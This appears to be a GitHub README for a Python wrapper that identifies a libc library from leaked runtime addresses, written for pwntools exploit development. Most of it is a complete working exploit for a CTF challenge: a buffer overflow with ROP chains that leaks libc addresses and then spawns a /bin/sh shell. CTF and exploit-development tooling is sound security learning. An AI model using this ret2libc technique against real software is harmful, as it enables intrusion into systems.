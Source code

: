 # libc-resolver

A python wrapper of the awesome project https://github.com/niklasb/libc-database, a project made to determine a libc library from its runtime addresses.

This wrapper is made for pwntools exploit development, all credits for the search engine goes to niklasb.

# How to use

Clone the project and add the folder to your PYTHONPATH env variable, then simply import the module and do:
```python
from libc_resolver import libc_resolve

libc = libc_resolve({"__libc_start_main": 0x7f31aad5cfc0, "puts": 0x7f31aadbd5a0}, choice=1)
print(libc.symbols["system"])
```

## Practical exemple

Expoloit code for the returntowhat challenge from DUCTF, a simple ROP:

```python
from pwn import *
import struct
from libc_resolver import libc_resolve

exe = context.binary = ELF('return-to-what')
context.terminal = "gnome-terminal -- bash -c".split(" ")

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REM:
        return remote("chal.duc.tf", 30003)
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''
break *0x4011ac
'''.format(**locals())

io = start()
io.recvuntil("to?\n")
offset = 56

rop = ROP(exe)
rop.puts(exe.got["__libc_start_main"])
rop.main()

io.sendline("a" * offset + rop.chain())
leak = io.recvline()[:-1]
leak = leak + "\0" * (8 - len(leak))
libc_start_main = struct.unpack("<Q", leak)[0]

io.recvuntil("to?\n")
rop = ROP(exe)
rop.puts(exe.got["puts"])
rop.main()

io.sendline("a" * offset + rop.chain())
leak = io.recvline()[:-1]
leak = leak + "\0" * (8 - len(leak))
puts = struct.unpack("<Q", leak)[0]

print("libc_start_main: 0x%x" % libc_start_main)
print("puts: 0x%x" % puts)

lib = libc_resolve({"__libc_start_main": libc_start_main, "puts": puts}, choice=0)

io.recvuntil("to?\n")
rop = ROP(exe)
rop.call(lib.symbols["execv"], [next(lib.search("/bin/sh\0")) , 0])
io.sendline("a" * offset + rop.chain())
io.interactive()
```
